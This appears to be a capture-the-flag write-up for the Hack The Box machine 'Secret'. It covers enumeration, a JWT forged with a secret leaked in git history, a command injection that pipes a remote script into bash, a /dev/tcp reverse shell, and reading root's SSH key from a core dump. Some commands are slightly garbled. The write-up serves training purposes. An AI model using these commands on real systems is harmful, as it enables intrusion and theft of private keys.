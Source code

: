 ```yaml
---
title: Secret Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```



## Enumeration

```java
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 3072 97af61441089b953f0803fd719b1e29c (RSA)
|_ 256 95ed658dcd082b55dd1751311e3e1812 (ECDSA)
|_ 256 337bc171d3330f924e835a1f5202935e (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: DUMB Docs
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open http Node.js (Express middleware)
|_http-title: DUMB Docs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User Exploit

Accessing the page, we find the option to download the source code of the page. Inside this folder we can see a .git.
If we make a ``git log, we can see how we have access to several commits ``, but the one that interests us most is the second one, because it tells us about security reasons. We see that it reports the following:
```json
diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
```

Analyzing, the other commits, we can see the following:
```json 
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
```

As you can see, this code is not well sanitized, because the file is passed directly without being filtered. In addition, we will also need a verifytoken to access the user "theadmin".

Digging further into the source code of the page, we find the /routes/auth.js file, specifically the following snippet:
```js
 // create jwt 
 const token = jwt.sign({ _id: user.id, name: user.name , email: user.email}, process.env.TOKEN_SECRET )
 res.header('auth-token', token).send(token);
```

Which is the one used to generate a JWT. 

This way, we already know what form the JWT has to have, so we are going to create one unsaod `jwt.io`.

Once we have it created, we are going to inject it in the web page with the help of curl:
```shell
curl -s -X GET -G "http://10.129.223.77:3000/api/logs" -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiIxMjM0NTY3ODkwIiwibmFtZSI6InRoZWFkbWluIiwiZW1haWwiOiJ0ZXN0QGh0Yi5odGIifQ.0 O1YWIRBS47RTjBcepm3nvFjwhDXVWFE7PewEurbr58" --data-urlencode "file=/etc/passwd;curl 10.10.14.113:8000 | bash" | jq
```

But before that, we have to create a file called index.html like this:
```shell
#!/bin/bash
bash -i >&/dev/tcp/<IP>/<PORT> 0>&1
```

and share it using a python server. In this way, we will receive the reserse shell.

## Root Exploit

Looking for SUIDS: `find / -perm -u=s -type f 2>/dev/null` we see that it reports many files. However, the one that catches our attention is /opt/count, so let's investigate it.
However, being a binary, we are going to read its code in the `code.c` file. We see that it makes use of the `prctl(PR_SET_DUMPABLE, 1)` command, so we can intuit that there is something related to the core dump. Therefore, let's try to exploit it. To do this, we will only have to send a signal of type `SIGSEGV` to the application, so that this time it reads from the directory that we provide it:
```shell
/opt/count
/root/.ssh/id_rsa
ctrl+z
kill -SIGSEGV ``ps -e | grep -w "count"|awk -F ' ' ' '{print$1}'` `.
fg
```

Once we have that done, let's read the dumpeted core:
```shell
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash_unpacked
strings /tmp/crash_unpacked/CoreDump
```

And now we could see the id_rsa of the root user

